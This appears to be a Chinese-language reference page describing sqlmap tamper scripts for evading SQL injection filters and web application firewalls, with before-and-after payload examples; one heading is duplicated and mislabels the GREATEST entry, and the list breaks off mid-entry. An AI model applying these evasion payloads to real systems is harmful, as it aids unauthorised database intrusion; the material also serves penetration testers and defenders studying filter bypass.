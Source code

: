 #### **charunicodeencode.py**

适用数据库：ASP、ASP.NET 
测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3 
作用：适用字符串的unicode编码 
使用脚本前：`tamper('SELECT FIELD%20FROM TABLE')` 
使用脚本后：`%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045`

#### **space2comment.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：将空格替换为`/**/` 
使用脚本前：`tamper('SELECT id FROM users')` 
使用脚本后：`SELECT/**/id/**/FROM/**/users`

#### **equaltolike.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5 
作用：将`=`替换为`LIKE` 
使用脚本前：`tamper('SELECT * FROM users WHERE id=1')` 
使用脚本后：`SELECT * FROM users WHERE id LIKE 1`

#### **equaltolike.py**

测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：将`>`替换为GREATEST，绕过对`>`的过滤 
使用脚本前：`tamper('1 AND A > B')` 
使用脚本后：`1 AND GREATEST(A,B+1)=A`

#### **ifnull2ifisnull.py**

适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly) 
测试通过数据库：MySQL 5.0 and 5.5 
作用：将类似于`IFNULL(A, B)`替换为`IF(ISNULL(A), B, A)`，绕过对`IFNULL`的过滤 
使用脚本前：`tamper('IFNULL(1, 2)')` 
使用脚本后：`IF(ISNULL(1),2,1)`

#### **modsecurityversioned.py**

适用数据库：MySQL 
测试通过数据库：MySQL 5.0 
作用：过滤空格，使用mysql内联注释的方式进行注入 
使用脚本前：`tamper('1 AND 2>1--')` 
使用脚本后：`1 /*!30874AND 2>1*/--`

#### **space2mysqlblank.py**

适用数据库：MySQL 
测试通过数据库：MySQL 5.1 
作用：将空格替换为其他空格符号`('%09', '%0A', '%0C', '%0D', '%0B')` 
使用脚本前：`tamper('SELECT id FROM users')` 
使用脚本后：`SELECT%0Bid%0DFROM%0Cusers`

#### **modsecurityzeroversioned.py**
